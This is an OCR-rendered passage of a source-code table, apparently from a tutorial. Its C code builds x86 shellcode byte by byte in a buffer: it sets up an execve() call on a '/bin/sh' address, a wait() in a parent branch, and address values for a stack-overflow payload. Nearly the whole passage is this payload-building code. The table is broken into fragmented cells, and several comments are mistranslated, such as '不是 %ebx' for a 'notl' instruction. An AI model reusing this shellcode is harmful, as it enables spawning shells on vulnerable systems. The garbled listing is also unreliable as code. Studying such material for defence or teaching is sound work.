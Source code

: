 | LBuf=(unsigned long\*)&CBuf\[i\];\*LBuf=BufferAddress+BinShAddressOffset;i=i+4; |                                                 |
+---------------------------------------------------------------------------------+-------------------------------------------------+
| CBuf\[i++\]=\'\\x31\';CBuf\[i++\]=\'\\xD2\'; //xorl %edx,%edx                   |                                                 |
|                                                                                 |                                                 |
| CBuf\[i++\]=\'\\xCD\';CBuf\[i++\]=\'\\x80\'; //int \$0x80 (execve())            |                                                 |
+---------------------------------------------------------------------------------+-------------------------------------------------+
|                                                                                 | //父亲：                                        |
+---------------------------------------------------------------------------------+-------------------------------------------------+
| CBuf\[i++\]=\'\\x89\';CBuf\[i++\]=\'\\xD6\';                                    | // movl%edx,%esi                                |
|                                                                                 |                                                 |
| CBuf\[i++\]=\'\\x89\';CBuf\[i++\]=\'\\xD1\';                                    | // movl%edx,%ecx                                |
|                                                                                 |                                                 |
| CBuf\[i++\]=\'\\x89\';CBuf\[i++\]=\'\\xD3\';                                    | //movl %edx,%ebx                                |
|                                                                                 |                                                 |
| CBuf\[i++\]=\'\\xF7\';CBuf\[i++\]=\'\\xD3\';                                    | //不是 %ebx                                     |
+---------------------------------------------------------------------------------+-------------------------------------------------+
| CBuf\[i++\]=\'\\x89\';CBuf\[i++\]=\'\\xD0\';                                    | //movl %edx,%eax                                |
|                                                                                 |                                                 |
| CBuf\[i++\]=\'\\xB0\';CBuf\[i++\]=\'\\x72\';                                    | //movb \$0x72,%al                               |
+---------------------------------------------------------------------------------+-------------------------------------------------+
| CBuf\[i++\]=\'\\xCD\';CBuf\[i++\]=\'\\x80\';                                    | //int \$0x80 (wait())                           |
+---------------------------------------------------------------------------------+-------------------------------------------------+
| CBuf\[i++\]=\'\\x31\';CBuf\[i++\]=\'\\xC9\';                                    | > // xorl% ecx,% ecx //movb \$StackCodeSize,%cl |
|                                                                                 |                                                 |
| CBuf\[i++\]=\'\\xB1\';CBuf\[i++\]=StackCodeSize;                                |                                                 |
+---------------------------------------------------------------------------------+-------------------------------------------------+

CBuf\[i++\]=\'\\xBE\'; //movl \$BufferAddress+\$StackCodeOffset,%esi

LBuf=(unsigned long\*)&CBuf\[i\];\*LBuf=BufferAddress+StackCodeOffset;i=i+4;

CBuf\[i++\]=\'\\x89\';CBuf\[i++\]=\'\\xEF\'; // movl%ebp,%edi
